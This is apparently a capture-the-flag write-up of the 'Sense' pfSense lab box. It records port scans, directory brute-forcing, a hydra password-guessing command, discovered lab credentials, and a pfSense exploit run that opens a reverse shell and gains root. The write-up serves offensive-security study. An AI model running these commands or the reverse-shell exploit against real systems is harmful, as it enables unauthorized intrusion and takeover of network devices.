







# Summary


## about target

tip:  10.129.32.30

hostname: Sense

Difficulty: Easy


## about attack

+ web enum, try -x to enum the common extensions(asp/jsp/php/html/md/txt) when the dir scan no result.
+ feroxbuster is much faster, but specify the depth=1(default 4) is recommand.


**attack note**

```bash
Sense / 10.129.32.30

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.32.30/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35


## http enum

port 80 301 to 443

lighttpd/1.4.35, pfsense

dir scan
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -o gobuster-443.log

/tree/  

pfsense exploit
Directory Traversal, lfi to rce, https://www.exploit-db.com/exploits/39038
Command Execution,https://www.exploit-db.com/exploits/43128
Remote code injection, need password. https://www.exploit-db.com/exploits/47413

try gobuster -x; missed the txt
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -x php,md,html -o gobuster-file.log

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -x php,md,html,txt -o gobuster-file.log

## feroxbuster, specify the depth, default 4 need more time.
feroxbuster --url https://$tip:443/ -x html,php,txt,md  --output ferodir443-dirmedlist.log -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
feroxbuster --resume-from=ferox-https_10_129_135_237:443_-1665180847.state

try hydra brute force, 4000 tries, give up.
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.32.30 https-post-form "/index.php:__csrf_magic=sid%3Ace4d1798cae462c79e4eb22328f11764f126c597%2C1665153467&usernamefld=^USER^&passwordfld=^PASS^&login=Login:incorrect"

enum the version of pfsense.

https://www.exploit-db.com/exploits/43560
python 43560.py --rhost $tip --lhost 10.10.14.62 --lport 4444 --username rohit --password pfsense
```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.32.30/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
```


## http enum

port 80 301 to 443

web server: lighttpd/1.4.35, pfsense

Dir scan

```bash
# dir scan
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -o gobuster-443.log
```

nothing interesting, need login.



/tree,  nothing.



/index.php, login page; default credential not work; admin/root:pfsense

pfsense exploit, no version info.
Directory Traversal, lfi to rce, https://www.exploit-db.com/exploits/39038
Command Execution,https://www.exploit-db.com/exploits/43128
Remote code injection, need password. https://www.exploit-db.com/exploits/47413


try hydra brute force, 4000 tries, give up.
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.32.30 https-post-form "/index.php:__csrf_magic=sid%3Ace4d1798cae462c79e4eb22328f11764f126c597%2C1665153467&usernamefld=^USER^&passwordfld=^PASS^&login=Login:incorrect"
```


check walkthrough, -x enum the file.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -u https://$tip -k -x php,md,html,txt -o gobuster-file.log
```




/system-users.txt, credential tip.




try rohit/pfsense, login.




got version,  2.1.3

# Exploitation

https://www.exploit-db.com/exploits/43560

```bash
python 43560.py --rhost $tip --lhost 10.10.14.62 --lport 4444 --username rohit --password pfsense
```

got root shell.




## proof



